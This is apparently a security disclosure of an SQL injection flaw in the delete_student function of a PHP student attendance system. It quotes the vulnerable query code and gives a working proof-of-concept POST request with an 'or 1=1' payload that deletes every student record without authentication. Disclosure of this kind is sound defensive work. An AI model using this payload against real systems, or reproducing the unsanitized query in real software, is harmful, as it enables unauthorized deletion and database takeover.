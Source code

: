 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Simple Student Attendance System using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html) <br/>

**Affected Version**:
> Simple Student Attendance System using PHP and MySQL 1.0

**Affected Site Page**: 
> /ajax-api.php<br/>

**Affected Code**: 
> </ajax-api.php [function delete_student()]> <br/>

```php
public function delete_student(){
    extract($_POST);
    $delete = $this->conn->query("DELETE FROM `students_tbl` where `id` = '{$id}'");
    if($delete){
        $_SESSION['flashdata'] = [ 'type' => 'success', 'msg' => "Student has been deleted successfully!" ];
        return [ "status" => "success" ];
    }else{
        $_SESSION['flashdata'] = [ 'type' => 'danger', 'msg' => "Student has failed to deleted due to unknown reason!" ];
        return [ "status" => "error", "Student has failed to deleted!" ];
    }
}
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code executing a query on the backend, for the POC all students are deleted without any authentication

![image](https://github.com/smurf-reigz/security/assets/48426940/c58f0ecd-3d7c-48e6-a54f-90928c33a41e)

```http 
POST /ajax-api.php?action=delete_student HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Connection: close

id=1337'+or+1=1;--+
```

> DELETES all students without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/d789c987-c0a0-40df-a4aa-d109c45eb211)


## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
